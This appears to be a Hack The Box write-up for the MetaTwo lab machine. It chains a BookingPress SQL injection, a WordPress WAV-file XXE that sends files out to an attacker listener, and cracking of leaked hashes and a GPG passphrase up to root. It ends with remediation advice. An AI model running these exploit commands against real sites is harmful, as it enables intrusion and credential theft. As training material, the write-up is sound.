

# MetaTwo — Hack The Box Writeup

| Property       | Value                                                              |
|----------------|--------------------------------------------------------------------|
| **Machine**    | MetaTwo                                                            |
| **OS**         | Linux (Debian 11 bullseye, Kernel 5.10)                            |
| **IP**         | 10.129.228.95                                                      |
| **Difficulty** | Easy                                                               |
| **Author**     | PeterTheFlower/Pitiliti1                                           |
| **Tags**       | Web, WordPress, BookingPress, SQL Injection, CVE-2022-0739, XXE, CVE-2021-29447, FTP, Passpie, GPG Cracking, Credential Reuse |

---

## Summary

MetaTwo is an Easy-difficulty Linux machine featuring a vulnerable WordPress deployment that leads to multi-stage credential exposure and privilege escalation through password manager decryption. Initial reconnaissance reveals an outdated WordPress instance utilizing the vulnerable BookingPress plugin (CVE-2022-0739). Exploiting an unauthenticated SQL injection in BookingPress allows dumping the WordPress user table and cracking the `manager` user's phpass password. Authenticating as `manager` unlocks an XML External Entity (XXE) vulnerability in WordPress core (CVE-2021-29447) via malicious WAV audio file metadata parsing, enabling arbitrary local file reading. Leveraging this XXE, we extract `wp-config.php`, discovering ProFTPD credentials for `metapress.htb`. Connecting via FTP reveals an unlinked mailer script (`send_email.php`) containing hardcoded credentials for system user `jnelson`, which grants SSH access and the user flag. For privilege escalation, local enumeration identifies Passpie, a command-line password manager storing GPG-encrypted credentials. Cracking the GPG private key passphrase with John the Ripper allows decrypting the root password, granting complete administrative control.

---

## 1. Reconnaissance

### 1.1 Port Scan

A full TCP port scan was performed using Nmap:

```bash
nmap  -Pn -sC -sV -p- -T4 -v -oN nmap.txt 10.129.228.95
```

| Port   | State | Service | Version / Notes                                        |
|:-------|:------|:--------|:-------------------------------------------------------|
| 21/tcp | open  | FTP     | ProFTPD                                                |
| 22/tcp | open  | SSH     | OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)          |
| 80/tcp | open  | HTTP    | nginx 1.18.0 (Redirects to `http://metapress.htb/`)   |


Add the target hostname to `/etc/hosts`:
```bash
echo "10.129.228.95 metapress.htb" | sudo tee -a /etc/hosts
```

### 1.2 Web Application Fingerprinting (Port 80)

Sending an initial HEAD request:
```bash
curl -I http://metapress.htb
# HTTP/1.1 200 OK
# Server: nginx/1.18.0
# X-Powered-By: PHP/8.0.24
# Set-Cookie: PHPSESSID=...
# Link: <http://metapress.htb/wp-json/>; rel="https://api.w.org/"
```

Running `wpscan` reveals the CMS technology stack:
- **WordPress Version**: 5.6.2 (released February 2021, known to be vulnerable to several issues)
- **Active Theme**: `twentytwentyone` (v1.1)
- **XML-RPC**: Enabled at `/xmlrpc.php`

Enumerating active plugins by inspecting page sources across endpoints reveals a booking system under `/events/`:
```bash
curl -s http://metapress.htb/events/ | grep -i plugins
```

The output identifies:
- **Plugin**: `bookingpress-appointment-booking`
- **Version**: `1.0.10`

---

## 2. Initial Access — SQL Injection to XXE to SSH

### 2.1 Vulnerability Analysis — BookingPress SQLi (CVE-2022-0739)

BookingPress versions prior to `1.0.11` fail to sanitize user input in AJAX actions handled by `wp-admin/admin-ajax.php`. Specifically, the `bookingpress_front_get_category_services` action takes the `total_service` parameter and concatenates it directly into dynamic SQL queries without utilizing prepared statements or escaping quotes.

> **Theory — Unauthenticated AJAX SQL Injection in WordPress:**  
> WordPress plugins often register frontend actions using `wp_ajax_nopriv_<action>`, permitting unauthenticated visitors to invoke internal PHP handler functions via `POST /wp-admin/admin-ajax.php`. Because WordPress handles database interaction through `$wpdb`, failing to use `$wpdb->prepare()` on parameters passed to raw queries leads directly to unauthenticated SQL injection. To invoke this action, the application requires a valid CSRF nonce generated in the HTML page (`_wpnonce`).

Extracting the active `_wpnonce` from the HTML source of `/events/`:



### 2.2 Exploiting CVE-2022-0739 (Database Dump)

Using a PoC exploit targeting the `bookingpress_front_get_category_services` endpoint with the recovered nonce:

```bash
python3 sql_injector.py -u http://metapress.htb -n '3edebd1ca7'
```

**Output:**
```text
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

### 2.3 Cracking WordPress Password Hashes

WordPress stores password hashes using the `phpass` portable hash format (`$P$B...`), which corresponds to Hashcat mode `400`:

```bash
hashcat -m 400 '$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70' /usr/share/wordlists/rockyou.txt
```

**Result:**
`$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar`

- **Account**: `manager`
- **Password**: `partylikearockstar`

*(Note: The hash for user `admin` could not be cracked with `rockyou.txt`).*

### 2.4 WordPress Media XXE (CVE-2021-29447)

Logging into `/wp-login.php` as `manager` succeeds. However, user `manager` has restricted permissions and cannot edit themes or install arbitrary plugins to obtain direct code execution.

Given that WordPress version **5.6.2** is running (vulnerable range: 5.6.0 – 5.7.0), we leverage **CVE-2021-29447** — an authenticated XML External Entity (XXE) injection flaw in the media library.

> **Theory — XXE via WAV ID3 Metadata (CVE-2021-29447):**  
> When an audio file (such as `.wav`) is uploaded to WordPress, the built-in `getID3` library parses metadata headers. In vulnerable WordPress versions, the parsing of the `iXML` chunk in WAV files relies on PHP's `simplexml_load_string()` without disabling external entity loading (`LIBXML_NOENT`). An attacker can craft a WAV file containing an XML payload that triggers an out-of-band (OOB) XXE, forcing the WordPress server to fetch an external DTD and leak local file contents via HTTP parameter exfiltration.

We host an external DTD and invoke the automated XXE PoC:

```bash
python3 xxe.py --lhost 10.10.15.197 --lport 1234 --target http://metapress.htb --user manager --password partylikearockstar --file /etc/passwd
```

The server returns `/etc/passwd`:
```text
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

Key takeaways:
- Regular system user: `jnelson` (`uid=1000`).
- ProFTPD service account: `proftpd`.

Next, we extract `wp-config.php`:
```bash
python3 xxe.py --lhost 10.10.15.197 --lport 1234 --target http://metapress.htb --user manager --password partylikearockstar --file ../wp-config.php
```

**Recovered `wp-config.php` credentials:**
```php
define( 'DB_NAME', 'blog' );
define( 'DB_USER', 'blog' );
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
define( 'DB_HOST', 'localhost' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

### 2.5 FTP Enumeration & Lateral Movement to `jnelson`

Using the recovered FTP credentials (`metapress.htb` : `9NYS_ii@FyL_p5M2NvJ`), we connect to port 21:

```bash
ftp metapress.htb@10.129.228.95
# 230 User metapress.htb logged in
ftp> ls
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer
```

Navigating into the  `mailer` directory:
```bash
ftp> cd mailer
ftp> ls
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
ftp> get send_email.php
```

Inspecting `send_email.php`:
```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

Because of widespread password reuse across services and local accounts, we test these credentials against SSH:

```bash
ssh jnelson@10.129.228.95
# Password: Cb4_JmWM8zUZWMu@Ys
```

```bash
jnelson@meta2:~$ id
uid=1000(jnelson) gid=1000(jnelson) groups=1000(jnelson)

jnelson@meta2:~$ cat user.txt
d9063cdbe8df94fd589e284bc8ad1e8a
```

**🚩 User flag obtained: `d9063cdbe8df94fd589e284bc8ad1e8a`**

---

## 3. Privilege Escalation — Passpie GPG Key Cracking to Root

### 3.1 Local Enumeration & Passpie Discovery

Checking for hidden files in `jnelson`'s home directory:
```bash
ls -la /home/jnelson/
```

We observe a `.passpie` directory:
```bash
jnelson@meta2:~/.passpie$ ls -la
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .
drwxr-xr-x 5 jnelson jnelson 4096 Nov 17 21:52 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25  2022 ssh
```

Executing `passpie`:
```bash
passpie -v
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
```

> **Theory — How Passpie Works:**  
> [Passpie](https://github.com/marcwebbie/passpie) is a command-line password manager for Unix-like systems. It encrypts credential entries using an asymmetric OpenPGP key pair stored in `.keys`. Each password entry is stored as a separate encrypted file. Decrypting any entry requires the GPG private key, which is itself protected by a user-defined passphrase.

### 3.2 Extracting and Cracking the GPG Passphrase

We copy `/home/jnelson/.passpie/.keys` to our local attacking machine and extract the GPG private key hash using `gpg2john`:

```bash
gpg2john .keys > key.hash
```

Cracking the hash using John the Ripper and `rockyou.txt`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.hash
```

**Output:**
```text
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key)
Cost 1 (s2k-count) is 65011712 for all loaded hashes
blink182         (Passpie)
Session completed.
```

The passphrase protecting the GPG private key is **`blink182`**.

### 3.3 Decrypting the Root Password

Returning to the SSH session on MetaTwo, we decrypt the `root` entry using `passpie copy`:

```bash
jnelson@meta2:~/.passpie$ passpie copy root@ssh --to stdout
Passphrase: blink182
p7qfAZt4_A1xo_0x
```

The plaintext password for `root` is: `p7qfAZt4_A1xo_0x`.

### 3.4 Root Access

Switching to `root` via `su`:

```bash
jnelson@meta2:~/.passpie$ su -
Password: p7qfAZt4_A1xo_0x
root@meta2:~# id
uid=0(root) gid=0(root) groups=0(root)

root@meta2:~# cat /root/root.txt
825d42641fbe1dc76836a0f4be44db80
```

**🚩 Root flag obtained: `825d42641fbe1dc76836a0f4be44db80`**

---

## 4. Attack Path Summary

```
                  ┌───────────────────────────────┐
                  │ Nmap: 21 (FTP), 22, 80 (HTTP) │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ WordPress 5.6.2 & BookingPress│
                  │ CVE-2022-0739 (Unauth SQLi)   │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ Dump & crack manager hash     │
                  │ partylikearockstar            │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ Authenticated XXE (WAV upload)│
                  │ CVE-2021-29447 ──► wp-config  │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ ProFTPD login as metapress.htb│
                  │ send_email.php ──► jnelson PW │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ SSH as jnelson ──► 🚩 user.txt│
                  │ Discovered ~/.passpie/.keys   │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ gpg2john + john (rockyou)     │
                  │ Passphrase: blink182          │
                  └───────────────┬───────────────┘
                                  │
                  ┌───────────────▼───────────────┐
                  │ passpie decrypt root password │
                  │ su root ──────► 🚩 root.txt   │
                  └───────────────────────────────┘
```

---

## 5. Findings & Recommendations

### Finding 1 — Unauthenticated SQL Injection in BookingPress (CVE-2022-0739)

| Attribute     | Detail |
|:--------------|:-------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1190 — Exploit Public-Facing Application |
| **Description** | BookingPress v1.0.10 concatenates unvalidated input into an AJAX endpoint, allowing unauthenticated attackers to extract database tables, including administrator password hashes. |

**Recommendations:**
- Update BookingPress to version `1.0.11` or higher immediately.
- Enforce the use of parameterized SQL queries via `$wpdb->prepare()` for all plugin database interactions.
- Disable `wp_ajax_nopriv` actions that do not strictly require anonymous user access.

---

### Finding 2 — Authenticated Media Library XXE Injection (CVE-2021-29447)

| Attribute     | Detail |
|:--------------|:-------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1059 / T1005 — Data from Local System |
| **Description** | WordPress Core 5.6.2 parses WAV audio files containing malicious XML entities in the `iXML` chunk without disabling external entity resolution, permitting arbitrary local file disclosure. |

**Recommendations:**
- Upgrade WordPress to version `5.7.1` or later, where external entity resolution is explicitly disabled (`libxml_disable_entity_loader(true)`).
- Restrict audio and document MIME types permitted in media uploads if not strictly required for editorial workflows.

---

### Finding 3 — Cleartext Credentials Stored in Accessible Files

| Attribute     | Detail |
|:--------------|:-------|
| **Severity**  | 🟠 High |
| **MITRE**     | T1552.001 — Credentials in Files |
| **Description** | The file `mailer/send_email.php` stored plaintext SMTP/email credentials for user `jnelson`, which were identical to his operating system SSH password. |

**Recommendations:**
- Store application secrets and API credentials in environment variables or a dedicated secrets manager rather than hardcoded in source code files.
- Restrict filesystem permissions on backup/test scripts to ensure they are not readable by shared service users like `metapress.htb`.
- Enforce strict policies against credential reuse between application services and host OS user accounts.

---

### Finding 4 — Insecure Passphrase for CLI Password Manager

| Attribute     | Detail |
|:--------------|:-------|
| **Severity**  | 🟠 High |
| **MITRE**     | T1555.005 — Password Managers |
| **Description** | The user `jnelson` protected their Passpie GPG private key with a weak, single-word dictionary passphrase (`blink182`), which was easily cracked using standard wordlists. |

**Recommendations:**
- Mandate strong, high-entropy passphrases (20+ characters or multi-word passphrases) for encryption keys protecting master credential stores.
- Consider utilizing system-level credential security solutions tied to hardware tokens (e.g., TPM, YubiKey) for root access delegation rather than local password manager vaults.

---

## 6. Tools Used

| Tool | Purpose |
|:-----|:--------|
| **Nmap** | Network port scanning and service detection |
| **WPScan** | WordPress enumeration (version, themes, users) |
| **cURL** | Manual HTTP banner grabbing and header enumeration |
| **sql_injector.py** | PoC script for exploiting BookingPress CVE-2022-0739 |
| **Hashcat** | GPU-accelerated cracking of WordPress phpass hashes |
| **xxe.py** | PoC script for exploiting WordPress CVE-2021-29447 via WAV upload |
| **FTP Client** | Connecting to ProFTPD and extracting files |
| **gpg2john** | Extracting OpenPGP private key hashes from Passpie `.keys` |
| **John the Ripper** | Cracking the GPG private key passphrase |
| **Passpie** | Local command-line password manager |

---

## 7. Lessons Learned

1. **Low-privilege CMS roles can be devastating** — initial access as `manager` did not permit direct code execution (plugins/themes were locked), but combining it with an unpatched Core vulnerability (CVE-2021-29447 XXE) completely compromised the host's files.
2. **Always audit unlinked or auxiliary directories on FTP** — while `blog/` contained standard WordPress files, the adjacent `mailer/` directory held forgotten automation scripts containing raw plaintext credentials.
3. **Password managers on servers introduce risk if weak passphrases are used** — storing administrative root credentials in tools like Passpie or KeePass on an end-user account turns any single-user compromise into a direct root escalation if the master passphrase is in a dictionary.

---

## 8. References

- [CVE-2022-0739 — BookingPress SQL Injection (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2022-0739)
- [CVE-2021-29447 — WordPress XXE Injection (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-29447)
- [WPScan Vulnerability Database — BookingPress < 1.0.11 SQLi](https://wpscan.com/vulnerability/388cd42d-b61a-4d76-8699-234e4564858a)
- [PortSwigger — XML External Entity (XXE) Injection](https://portswigger.net/web-security/xxe)
- [Passpie GitHub Repository](https://github.com/marcwebbie/passpie)
- [MITRE ATT&CK — T1190 (Exploit Public-Facing Application)](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK — T1555.005 (Password Managers)](https://attack.mitre.org/techniques/T1555/005/)
